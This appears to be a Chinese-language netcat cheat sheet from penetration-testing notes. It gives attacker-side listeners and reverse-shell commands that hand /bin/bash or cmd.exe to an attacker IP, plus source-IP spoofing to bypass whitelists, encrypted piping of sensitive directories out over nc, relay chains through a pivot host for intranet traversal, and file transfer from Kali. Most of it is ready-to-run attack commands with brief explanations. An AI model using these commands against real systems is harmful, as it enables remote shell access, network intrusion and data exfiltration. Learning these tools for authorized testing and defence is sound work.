 # nc基础功能与命令(反向连接)
```
nc -lvp 4444
```
-l：监听模式
-v：显示详细输出（-vv为更详细模式）
-p：指定监听端口
​扩展参数：
-k：保持长连接（防止Shell意外断开）
-n：禁用DNS解析，直接使用IP地址

-------------------------------------------------------------------
```
nc <攻击机IP> 4444 -e /bin/bash  # Linux
nc.exe <攻击机IP> 4444 -e cmd.exe  # Windows
```
-e：指定要执行的程序（如Shell解释器）

```
nc -u <攻击机IP> 4444  # 目标机使用UDP协议连接
```
-u：启用UDP传输（默认TCP），适用于特殊网络环境

```
nc -d -lvp 4444  # 攻击机后台静默监听
```
-d：脱离终端后台运行（Windows适用）

![](vx_images/403897344725558.png)

# 高级参数解析

```
nc -g 192.168.1.254 目标IP 80
```
此命令通过网关192.168.1.254访问目标IP的80端口
-G <指针数>：
设置源路由指针位置，数值需为4的倍数（如4、8、12），用于复杂网络环境下的路由跳转

```
nc -s 伪造IP 目标IP 端口
```
伪造源IP地址发送数据包（需系统支持），常用于绕过IP白名单或模拟攻击：


```
nc -o traffic.log 目标IP 80
```
将传输的原始数据以十六进制格式**记录到文件，用于分析协议或取证


```
发送端加密
tar -czvf - 目录 | openssl aes-256-cbc -salt | nc -l 4444

接收端解密
nc 目标IP 4444 | openssl aes-256-cbc -d | tar -xzvf -
```
通过管道结合加密工具传输敏感数据


```
节点1（本地）→ 节点2（跳板）→ 目标服务器
nc -l 4444 | nc 跳板IP 5555
nc -l 5555 | nc 目标IP 80
```
此组合将本地4444端口的流量经跳板机转发至目标80端口，适用于内网穿透

![](vx_images/497673955095705.png)

![](vx_images/592942551996815.png)

![](vx_images/106281572810431.png)
![](vx_images/288911857760108.png)

![](vx_images/414525138363794.png)

# 传输文件(目标机接收)
```
kali:nc 目标机 4444 <1.txt
目标机:nc -lvnp 4444 >1.txt
```

